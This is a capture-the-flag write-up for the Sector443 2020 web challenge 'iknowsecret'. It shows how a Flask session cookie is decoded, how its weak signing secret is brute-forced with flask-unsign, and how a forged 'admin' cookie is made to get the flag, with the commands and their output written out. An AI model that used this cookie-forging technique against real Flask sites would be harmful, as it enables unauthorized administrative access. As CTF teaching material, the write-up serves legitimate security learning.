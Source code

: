 # Sector443 CTF 2020: Web - iknowsecret (443 points)

## Description:

![img](https://github.com/FreezeLuiz/CTF-Writeups/blob/master/Web/images/sector443/iknowsecret/iknowsecret-chall_description.PNG "Challenge Description")

The information from the challenge description is a lot! But we get 3 important things:

1. we have user accounts to login
2. we have the URL 
3. we need to be `admin`

>Sounds easy! Lets see...


## Recon and Analysis:

I don't like dirbuster the website, because usually in CTF challenges thats not the intended route.

My first thought after logging in with `Alice`, is that _it has to be an `authentication token` challenge._

I looked at the cookies and there was a session cookie called `session` that had the value:

```
session = eyJ1c2VybmFtZSI6IkFsaWNlIn0.X4LFSQ.UIhkGLEypsn2egiwIXKNMoyJ0Pc
```

At first glance, it may look like a [JWT](https://jwt.io/) token. Looking at it closely, it doesn't have the same structure as a JWT.
```
JWT's Structure
---------------

Header . Payload . Signature


This Token's Structure
----------------------

Payload . ???? . ????

Then its not JWT :( *le sad noises!*
```

When we send login requests multiple times, we get a different session cookie every time. 

```
1st: eyJ1c2VybmFtZSI6IkFsaWNlIn0.X4LFSQ.UIhkGLEypsn2egiwIXKNMoyJ0Pc
2nd: eyJ1c2VybmFtZSI6IkFsaWNlIn0.X4LXxA.Jc7Djou7JXl_H4WTJpDaAPwk-E4
3rd: eyJ1c2VybmFtZSI6IkFsaWNlIn0.X4LX6A.L9EuQltdNTUfk-0n_SZHh8yWn3M
```
The two things in common in these cookies are: The first half which is the payload or the data of the user `{"username": "Alice"}` base64 encoded, and the second half which always starts with `X4L***`.


The next key element to solve this challenge is the server's response headers. 

![img](https://github.com/FreezeLuiz/CTF-Writeups/blob/master/Web/images/sector443/iknowsecret/iknowsecret-python_server_flask.PNG "Flask Server")

That `server` header indicates that its running [Flask](https://flask.palletsprojects.com/), a python web server. 


## Solution

After googling around a bit for flask authentication token, I found something called [flask_unsign](https://pypi.org/project/flask-unsign/) that can take a token and bruteforce its secret, then using that secret we can forge other flask authentication tokens. 

```
kali@kali:~/Documents/sector443/iknowsecret$ python3 /home/kali/.local/lib/python3.8/site-packages/flask_unsign/__main__.py -u -c eyJ1c2VybmFtZSI6IkFsaWNlIn0.X4LX_Q.LU2iFhRBcP2nRHMCpdDQ1FnJY4o
[*] Session decodes to: {'username': 'Alice'}
[*] No wordlist selected, falling back to default wordlist..
[*] Starting brute-forcer with 8 threads..
[*] Attempted (2560): -----BEGIN PRIVATE KEY-----eke
[+] Found secret key after 18048 attemptsxxxxxxxxxxxx
'xxxxxxxx'
```

>For some reason I wasn't able to get the program in my path, so I had to get a work around and use the main py script from the module itself...

We got the secret `xxxxxxxx`...

```
kali@kali:~/Documents/sector443/iknowsecret$ python3 /home/kali/.local/lib/python3.8/site-packages/flask_unsign/__main__.py --sign -c "{'username': 'admin'}" --secret 'xxxxxxxx' --legacy

eyJ1c2VybmFtZSI6ImFkbWluIn0.X4LfAw.G-znSjIPN3MlE92fEgvN2vVpMMA
```
`eyJ1c2VybmFtZSI6ImFkbWluIn0.X4LfAw.G-znSjIPN3MlE92fEgvN2vVpMMA` Is the admin token with a correct signature that will authenticate with the server.

After replacing the `session` cookie value with that new one, we will get the flag:

![img](https://github.com/FreezeLuiz/CTF-Writeups/blob/master/Web/images/sector443/iknowsecret/iknowsecret-flag.PNG "flag.. yay!")

Flag = `S443{D7WZDqWffsFwU99Z}`
